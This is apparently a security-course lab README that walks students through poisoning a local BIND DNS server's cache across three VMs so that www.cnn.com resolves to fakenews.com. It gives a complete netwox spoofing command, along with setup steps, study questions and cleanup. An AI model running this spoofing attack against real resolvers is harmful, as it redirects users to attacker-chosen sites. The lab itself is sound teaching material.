








## Local DNS Cache Poisoning Attack

### Requirement

In this lab, you will poison the cache of a local DNS server, and thus affect clients who rely on this DNS server. More specifically, we want clients who access www.cnn.com go to fakenews.com.

### Setup

3 Linux VMs: Victim (DNS) Client, Victim (DNS) Server, Attacker.

The following is the IP addresses and MAC addresses for the VMs used in this README.

| VM  |  IP Address   |        Role         |
|-----|---------------|---------------------|
| VM1 | 172.16.77.128 | victim (dns) client |
| VM2 | 172.16.77.129 | victim (dns) server |
| VM3 | 172.16.77.130 |   attacker          |

### Steps

1. on DNS Server machine: start the DNS Server. We will use BIND software. (BIND: Berkeley Internet Name Domain) 

```console
# sudo service bind9 start (If it's already running, then # sudo service bind9 restart)
```

2. on DNS Server: remove existing cache:

```console
# sudo rndc flush
```

this screenshot shows the commands to start the server and flush the cache.



3. on victim client, configure DNS server information, i.e., let the client know the IP address of the DNS server.

3.1. add this line to the end of file /etc/resolvconf/resolv.conf.d/head (remember to replace DNS_SERVER_IP with your victim DNS server's IP address, plus, you need "sudo" if you edit the file using vi/vim.)

```console
nameserver DNS_SERVER_IP
```

this screenshot shows editing the file in *vi*:


this screenshot shows the file is now edited:


3.2. run the following command so the above change will take effect:

```console
# sudo resolvconf -u
```



4. on attacker VM, run

```console
# sudo netwox 105 --hostname "www.cnn.com" --hostnameip FAKENEWS.com_IP --authns "ns1.fastly.net" --authnsip ATTACKER_IP --filter "src host DNS_SERVER_IP" --ttl 19000 --spoofip raw
```

FAKENEWS.com IP address (as of today, 05/24/2022): 188.126.71.216 (you can use ping command to confirm it)

**Explanation**: '--spoofip raw' means to spoof at IP4/IP6 level, as opposed to spoof at the data link layer. In other words, spoof IP addresses, instead of spoof MAC addresses.

this screenshot shows the actual command:



Question: why it's "src host DNS_SERVER_IP", instead of "src host DNS_CLIENT_IP"?

Question: does the ttl here have the same meaning as the ttl in IP headers?

5. on victim client, send a query.

```console
# dig www.cnn.com 
```

these two screenshots show the attack is successful: www.cnn.com is mapped to 188.126.71.216, which is the IP address of fakenews.com.



6. stop the attack - press control-c on the attacker VM's terminal. On victim client, run the dig command again and confirm that, even after the attack, www.cnn.com is still mapped to the IP address of fakenews.com, which proves that the cache is indeed poisoned, and thus the attack has a long-lasting effect:





7. you are recommended to remove the line you added in step 3, in this file: /etc/resolvconf/resolv.conf.d/head, so that your future experiments won't be affected.
